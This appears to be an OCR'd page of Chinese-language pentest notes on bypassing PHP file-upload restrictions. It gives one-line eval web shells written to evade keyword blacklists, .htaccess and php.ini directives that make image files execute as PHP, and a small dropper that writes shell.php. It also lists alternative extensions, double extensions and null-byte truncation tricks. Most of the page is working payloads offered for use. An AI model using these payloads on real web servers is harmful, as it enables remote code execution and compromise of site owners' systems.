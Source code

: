         - 检查前几个字节（CRLF：0d 0a）
        
            - jpg `FF D8`
            - png `89 50`
            - gif `47 49 46` `GIF89a;`

        - 关键字黑名单

            - 短标签绕过php `<?=eval($_GET['cmd']);?>`

            - 大小写绕过eval  `<?php EvaL($_GET['cmd']); ?>`

            - 参数0传递assert `<?php $_GET[0]($_POST[1]); ?>`

    - 其它逻辑

        - 二次渲染：向GIF中插入木马，多试几次

        - 条件竞争：并发处理不当或操作顺序设计不合理时，可以利用时间差访问（结合写入，可能还需要文件包含漏洞）

- 上传图片马：结合文件包含利用
```
AddType application/x-httpd-php .l33t
```
```xml
<FilesMatch "demo.jpg">
SetHandler application/x-httpd-php
</FilesMatch>
```
```ini
auto_prepend_file=web.jpg
auto_append_file=a.jpg
```
```php
<?php
fwrite(fopen('shell.php', 'w'), '<?php @eval($_POST["cmd"]) ?>');
?>
```

- 后缀替换

```
.php3
.phtml
.pht
.phar
.inc
```

- 双后缀

```
.jpg.php
.php.jpg
```

- 空字节截断

```
.php%00.gif
```
